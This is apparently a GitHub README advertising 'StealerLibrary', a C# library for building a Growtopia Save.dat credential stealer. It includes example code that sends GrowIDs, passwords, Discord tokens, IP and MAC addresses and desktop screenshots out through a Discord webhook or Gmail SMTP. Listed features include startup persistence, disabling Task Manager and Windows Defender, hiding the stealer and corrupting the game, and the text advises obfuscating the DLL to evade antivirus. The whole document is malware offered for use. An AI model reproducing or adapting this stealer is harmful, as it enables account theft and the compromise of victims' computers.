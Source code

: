 # StealerLibrary
Growtopia (Save.dat) Stealer Library that allows you to write a stealer with 1 line of code.
#### ⭐ If you like the project, feel free to star the project ⭐

## Compiled Version: [Download](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't. Use obfuscator for that.

## Example Usage : 

```csharp
using StealerLibrary;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            //Discord Webhook Method
            Library.DiscordWebhookUrl = "https://discord.com/api/webhooks/example/example";
            Library.WebhookName = "StealerLibrary"; //Optional
            Library.WebhookProfilePictureUrl = ""; //Optional
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.DiscordStealer(true, true, true, true, true, true, true, true, true);
            
            //Gmail Method
            Library.Gmail = "example@gmail.com";
            Library.GmailPassword = "Example12345.";
            Library.SMTPServer = "smtp.gmail.com"; //Default
            Library.SMTPPort = 587; //Default
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.GmailStealer(true, true, true, true, true, true, true, true, true);
            
            //Run On Startup, Disable Task Manager, Corrupt Growtopia, Hide Stealer, Disable Windows Defender
            Library.Functions(true, false, true, false, false);
            
            //Trace Save.dat for Discord/Gmail
            Library.TraceSaveDat(true, false);
        }
    }
}
```

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)
### V3
- Gmail Method (Optional)
- Trace Save.dat (Customizable: True/False)
- Run On Startup (Customizable: True/False)
- Disable Task Manager (Customizable: True/False)
- Corrupt Growtopia (Customizable: True/False)
- Hide Stealer (Customizable: True/False)
- Disable Windows Defender (Customizable: True/False)

## StealerLibrary is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/StealerLibrary/blob/main/LICENSE) file for details.
